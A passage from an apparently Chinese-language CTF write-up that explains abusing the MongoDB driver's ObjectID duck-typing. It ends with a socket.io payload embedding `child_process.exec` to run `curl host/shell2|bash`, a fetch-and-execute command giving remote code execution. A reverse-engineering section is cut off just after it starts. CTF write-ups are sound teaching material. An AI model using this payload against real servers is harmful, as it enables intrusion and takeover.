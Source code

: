 ```javascript
...

  if(!valid && id != null){
    throw new Error("Argument passed in must be a single String of 12 bytes or a string of 24 hex characters");
  } else if(valid && typeof id == 'string' && id.length == 24 && hasBufferType) {
    return new ObjectID(new Buffer(id, 'hex'));
  } else if(valid && typeof id == 'string' && id.length == 24) {
    return ObjectID.createFromHexString(id);
  } else if(id != null && id.length === 12) {
    // assume 12 byte string
    this.id = id;
  } else if(id != null && id.toHexString) {
    // Duck-typing to support ObjectId from different npm packages
    return id;
  } else {
    throw new Error("Argument passed in must be a single String of 12 bytes or a string of 24 hex characters");
  }
...
```
现在，我们的payload变成了：`id = {"length":0,"toHexString":true,"id":{"length":12}},`

完整的payload将会发送到mongodb服务器上。

```javascript
MongoDB shell version: 2.6.10
connecting to: test
> db.a.find({"b":{"$gt":1,"c":"d"}})
error: {
	"$err" : "Can't canonicalize query: BadValue unknown operator: c",
	"code" : 17287
}

```

完整的payload如下

```javascript
Client.socket.emit('init-world',{new:false,id:{"$in":[1],"require('child_process').exec('/usr/bin/curl host/shell2|bash')":"bbb","length":0,"toHexString":true,"id":{"length":12}},clientTime:"sacsaccsacsac"});
```


## REVERSE

### yy

>Do you love yy ?

解题

程序逻辑：
